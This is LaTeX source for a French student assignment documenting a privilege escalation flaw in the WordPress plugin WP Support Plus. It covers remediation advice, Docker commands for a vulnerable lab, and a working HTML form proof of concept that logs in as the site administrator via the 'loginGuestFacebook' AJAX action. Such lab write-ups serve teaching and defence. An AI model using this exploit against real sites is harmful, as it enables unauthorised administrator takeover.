\documentclass[a4,12pt]{article}

\usepackage{hyperref}
\usepackage[margin=2cm]{geometry}
\usepackage[francais]{babel}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[babel=true]{csquotes}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{float}
\usepackage{graphicx}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{color}
\setlength\parindent{20pt}
\lstset{language=python,
		commentstyle=\color{blue},
		keywordstyle=\color{red},
		emph={verify,\_find\_method\_hash},
		emphstyle=\color{green}
		}
\begin{document}
\begin{titlepage}
  \title{
    Sécurité des SI - Devoir numéro 2. \\
    Privilege escalation dans un plugin WordPress
  }
  \author{Valérian Baillet, Matthias Beaupère}
  \date{}
\end{titlepage}

\maketitle

\hspace{50px}

\section{Description de la vulnérabilité}


Pour exploiter la faille, il faut envoyer un requ\^ete POST à l'adresse : \\
\texttt{http://localhost:8080/wordpress/wp-admin/admin-ajax.php}\\

On doit fournir les données suivantes dans la requête :\\

\begin{tabular}{|c|c|}
  \hline
  Nom & Valeur \\
  \hline
  username & Login de l'admin \\
  email & sth \\
  action & loginGuestFacebook \\
  \hline
\end{tabular}\\

La valeur du champ username correspond au nom de l'utilisateur pour lequel on veut se faire passer. Idéalement, on cherche à connaitre le nom d'utilisateur de l'administrateur. 

\section{Exemple d'architecture compromise}

Les systèmes susceptibles d'être compromis par cette vulnérabilité sont les serveurs web qui utilisent WordPress équipé du plugin WP Support Plus.

Cela peut par exemple s'implémenter avec un serveur LAMP : Une machine ubuntu munie des paquets Apache, MySql et PHP. Cette machine est accessible depuis internet. WordPress est installé sur le serveur et on y a ajouté le plugin WP Support Plus.

Un utilisateur ayant lui aussi accès à internet peut ainsi exploiter cette vulnérabilité.

Un schéma de cette configuration est donnée figure \ref{archi}.

\begin{figure}[h]
  \center
  \includegraphics[width=300px]{images/vuln_wp}
  \caption{\label{archi}Exemple d'infrastructure compromise}
\end{figure}

\section{Solutions}

La meilleur solution fasse à cette faille est de mettre à jour le plugin WP Support Plus.

On peut également empêcher les attaques en désactivant le plugin WP Support Plus.

\section{Expérimentation}

Pour permettre au lecteur de réproduire l'exploitation de la vulnérabilité, nous avons mis en place le serveur LAMP avec l'installation vulnérable de WordPress sur une image Docker.

Nous avons uploader cette image en ligne gr\^ace au site DockerHub afin que chacun puisse la récupérer.

Vous devez tout d'abord installer docker. Vous pouvez faire cela sur \href{https://docker.io}{le site officiel}.\\

\subsection{Lancement du container}

Pour récupérer l'image sur notre dép\^ot DockerHub et la lancer dans un container, utilisez la commande suivante. On lie le port 8080 de votre système d'exploitation au port 80 du container afin de pouvoir accéder au serveur depuis votre système d'exploitation.

\texttt{\$ docker run -p 8080:80 -ti matthiasbe/vulnerable\_wp /bin/bash}\\

Cette commande ouvre un terminal dans le container.

\subsection{lancement du serveur}

Vous pouvez lancer les serveurs Apache et MySQL dans le container avec les commandes suivantes, à entrer l'une après l'autre dans le terminal obtenu dans l'étape précédente.

\texttt{\# service apache2 start}

\texttt{\# service mysql start}\\

Votre serveur est alors lancé. Vous pouvez y accéder en donnant l'adresse indiquée plus bas à un navigateur web sur votre machine h\^ote. Si tout s'est bien passé, vous \^etes alors sur la page d'accueil du site WordPress installé par nos soin.

Adresse du site : \texttt{http://localhost:8080/wordpress}

Un aperçu du site est donné figure \ref{apercu}

\begin{figure}[h]
  \label{apercu}
  \center
  
\includegraphics[width=400px]{images/apercu.png}
  \caption{Aperçu du site WordPress}
\end{figure}

\subsection{Exploitation de la faille}

Dans le site utilisé pour l'expérimentation, le nom d'administrateur est \texttt{admin}.\\

On utilise donc le formulaire présenté figure \ref{code}.

\begin{figure}
\label{code}
\begin{lstlisting}
  <form action="http://localhost:8080/wordpress/wp-admin/admin-ajax.php"
          method="post">
      Username: <input type="text" name="username" value="admin">
      <input type="hidden" name="email" value="sth">
      <input type="hidden" name="action" value="loginGuestFacebook">
      <input type="submit" value="Login">
  </form>
\end{lstlisting}
\caption{Formulaire permettant d'exploiter la faille}
\end{figure}

Ce code est également disponible sur \href{https://github.com/matthiasbe/secuimag3a/blob/master/devoir2/docker/hack.html}{le github de notre projet}.\\

Une méthode pour le l'envoyer et de copier le code dans un fichier html et d'ouvrir ce fichier avec un navigateur. On a ensuite uniquement à cliquer sur \texttt{login} pour l'envoyer.

Une fois l'envoi fait, une page blanche devrait s'afficher. Aucun affichage n'est généré mais du code PHP a été exécuté.\\

Dans un autre onglet du même navigateur, vous pouvez tenter d'accéder à l'adresse suivante :

\texttt{http://localhost:8080/wordpress/wp-admin}

Vous devez normalement être redirigé vers le panneau d'administration en tant qu'administrateur.

\section{Glossaire}

\section{Références}

\end{document}

